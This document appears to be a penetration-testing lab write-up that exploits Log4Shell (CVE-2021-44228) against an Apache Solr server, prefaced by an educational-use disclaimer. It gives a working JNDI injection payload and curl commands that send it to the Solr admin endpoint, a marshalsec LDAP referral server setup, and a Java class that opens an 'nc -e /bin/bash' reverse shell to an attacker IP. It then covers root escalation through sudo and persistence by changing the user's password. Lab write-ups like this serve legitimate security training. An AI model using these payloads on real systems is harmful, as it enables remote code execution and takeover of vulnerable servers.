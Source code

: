 ```yaml
---
published: false
---
```


With CVE-2021-44228 vulerability (Log4Shell) posing a major threat to Java applications hosted on the internet with a CVSS score of 10.0 critical designation. Remote code execution can be accomplished by taking advantage of a Java Naming and Directory Interface (JNDI) within Log4j logging packages. Solar provides a test scenairo for exploitation of vulnerability.  

----------

Legal Notice && Usage: *The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*
*By continuing, you acknowledge the aforementioned user risk/responsibilities.*

----------


# Reconnaissance

## Enumeration

Nmap scan:

    nmap -v -p- 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640108734185_image.png)





futher enumerate port 8983

    nmap -sV -p 8983 10.10.212.184

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105066145_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105737675_image.png)

# Discovery


## Http Server

navigate to `http://10.10.212.184:8983`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105787116_image.png)


Argument set for `-Dsolr.log.dir` set to `/var/solr/logs`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105901767_image.png)


**Downloaded Task Files**

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105925136_image.png)


within the `solr.log` file we can discover and example of the solr log file that is normally generated.

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105981072_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640105970426_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106058730_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106016837_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106165663_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106156327_image.png)



# Proof of Concept

navigate to `http://10.10.212.184:8983/solr/admin/cores`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106253666_image.png)



## log4j payload

    ${jndi:ldap://ATTACKERCONTROLLEDHOST}

**Creating a test scenario**

Adding a callback request from target to local attacking machine would allow a local listener to capture any incoming request

Listener setup on port 9999 locally and payload is sent via curl:

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.159.175:9999\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640106763648_image.png)


successful connection from target system to attacking system can be established by crafted injection to the `?foo` parameter.


**setup local LDAP server**

    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109159869_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109171679_image.png)


**craft java reverse shell** 
on attacking machine create an exploit.


    public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

compile java exploit code:

    javac Exploit.java -source 8 -target 8

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640107727782_image.png)


newly created `Exploit.class` file that will be hosted locally and sent to target via the jndi payload.

**send payload**

    curl 'http://10.10.212.184:8983/solr/admin/cores?foo=$\{jndi:ldap://10.6.124.83:1389/Exploit\}'

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109326110_image.png)
![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109333074_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109310919_image.png)



# Persistence

Establishing a foothold on box as `solr`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109529895_image.png)

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109516480_image.png)


Check sudo `sudo -l`

![](https://paper-attachments.dropbox.com/s_4C31D92121B5397E4506924129A1049C5736F2C26BE442BDBC951E9B5534A554_1640109599279_image.png)


called `"/bin/bash"` with sudo for a root shell.

changing password of `solr` for the ability to ssh into target.



